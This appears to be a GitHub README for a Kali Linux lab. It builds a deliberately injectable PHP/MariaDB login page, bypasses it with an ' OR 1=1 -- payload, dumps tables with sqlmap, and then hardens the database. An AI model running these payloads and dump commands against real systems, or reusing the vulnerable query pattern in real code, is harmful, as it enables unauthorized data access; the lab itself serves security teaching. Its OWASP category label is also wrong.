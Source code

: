 # 🐘 Advanced SQL Injection Lab + Database Security Hardening (MariaDB on Kali)

> ✅ \*\*Platform\*\*: Kali Linux 2025  
> ✅ \*\*Database\*\*: MariaDB  
> ✅ \*\*Goal\*\*: Simulate SQL Injection, exploit it manually and via sqlmap, then harden the database using security policies.

---

## 📌 Step 1: Install and Configure MariaDB

```bash
sudo apt update
sudo apt install mariadb-server
sudo systemctl start mariadb
```
✅ Check if it's running:

```
sudo systemctl status mariadb
```
## 🧪 Step 2: Create Vulnerable Database and Table

1. Login to MariaDB:

```
bashCopyEditsudo mariadb
```

1. Create database and vulnerable `users` table:

```  
CREATE DATABASE dvdb;
USE dvdb;

CREATE TABLE users (
  id INT AUTO_INCREMENT PRIMARY KEY,
  username VARCHAR(50),
  password VARCHAR(50)
);

INSERT INTO users (username, password) VALUES ('admin', 'admin123'), ('test', 'test123');
SELECT * FROM users;
```
![Mari1](file:///C:/Users/moham/OneDrive/Desktop/Mari1.png)
## 💥 Step 3: Build Vulnerable PHP Login Page

📁 Location: `/var/www/html/sqli_login.php`

```
phpCopyEdit<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$host = "localhost";
$user = "dvuser";
$pass = "StrongPass123!";
$db = "dvdb";

$conn = new mysqli($host, $user, $pass, $db);
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

$username = $_GET['username'];
$password = $_GET['password'];

$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
echo "<pre>SQL Query: $sql</pre>";

$result = $conn->query($sql);
if ($result->num_rows > 0) {
    echo "✅ Login Successful!";
} else {
    echo "❌ Invalid Credentials.";
}
?>
```

Also create a simple form `sql.html`:

```
htmlCopyEdit<form action="sqli_login.php" method="get">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="text" name="password"><br>
  <input type="submit" value="Login">
</form>
```
![Login Form](file:///C:/Users/moham/OneDrive/Desktop/LoginForm.png)
## 🧨 Step 4: Manual SQL Injection

- Payload:

    ```
    sqlCopyEditUsername: ' OR 1=1 --  
    Password: anything
    ```
- Result:

    ```
    ✅ Login Successful!
    ```
    ![Login](file:///C:/Users/moham/OneDrive/Desktop/Login.png)
    ## 🐍 Step 5: Automated Attack with sqlmap

### 🔹 Basic scan:

```  
sqlmap -u "http://localhost/sqli_login.php?username=test&password=test" --batch --dump
```

### 🔹 List databases:

```
sqlmap -u "http://localhost/sqli_login.php?username=test&password=test" --dbs
```

### 🔹 Dump `users` table:

```
sqlmap -u "http://localhost/sqli_login.php?username=test&password=test" -D dvdb -T users --dump
```

![D1](file:///C:/Users/moham/OneDrive/Desktop/D1.png)
![D2](file:///C:/Users/moham/OneDrive/Desktop/D2.png)
## 🛡️ Step 6: Database Security Hardening

### ✅ 6.1 Least Privilege – Create Limited User

```
sqlCopyEditCREATE USER 'dvuser'@'localhost' IDENTIFIED BY 'StrongPass123!';
GRANT SELECT ON dvdb.* TO 'dvuser'@'localhost';
```

![Mari Pass](file:///C:/Users/moham/OneDrive/Desktop/Mari%20Pass.png)
### 🔐 6.2 Enforce Password Policy (cracklib plugin)

#### 🔹 Install plugin:

```
bashCopyEditsudo apt install mariadb-plugin-cracklib-password-check cracklib-runtime
sudo systemctl restart mariadb
```

#### 🔹 Load plugin in MariaDB:

```
sqlCopyEditINSTALL SONAME 'cracklib_password_check';
```

#### 🔹 Test with weak password:

```
sqlCopyEditCREATE USER 'weakuser'@'localhost' IDENTIFIED BY '123';
-- ERROR 1819 (HY000): Your password does not satisfy the current policy requirements
```

![Marierror2](file:///C:/Users/moham/OneDrive/Desktop/Marierror2.png)

### 🔥 6.3 Delete Default or Empty Users

```
DELETE FROM mysql.user WHERE user='';
DELETE FROM mysql.user WHERE user='test';
FLUSH PRIVILEGES;
```

![Mari Delete](file:///C:/Users/moham/OneDrive/Desktop/MariDelete.png)

* * *

### 📜 6.4 Enable General Query Logging

Edit config:

```
bashCopyEditsudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
```

Add or update:

```
iniCopyEditgeneral_log_file = /var/log/mysql/mariadb.log
general_log = 1
```

Restart MariaDB:

```
bashCopyEditsudo systemctl restart mariadb
```

Tail the logs:

```
bashCopyEditsudo tail -f /var/log/mysql/mariadb.log
```

![Mari Final](file:///C:/Users/moham/OneDrive/Desktop/MariFinal.png)
* * *

## ✅ Final Outcome

- ✅ Simulated and exploited SQL Injection manually and via sqlmap
- ✅ Hardened the database using real-world security practices
- ✅ Enforced password policies using `cracklib`
- ✅ Logged database activity for auditing

* * *

## 🎓 Skills Demonstrated

- Web app security (OWASP A01: Injection)
- Use of Kali tools (sqlmap)
- MariaDB administration and user privilege control
- Secure database design and hardening
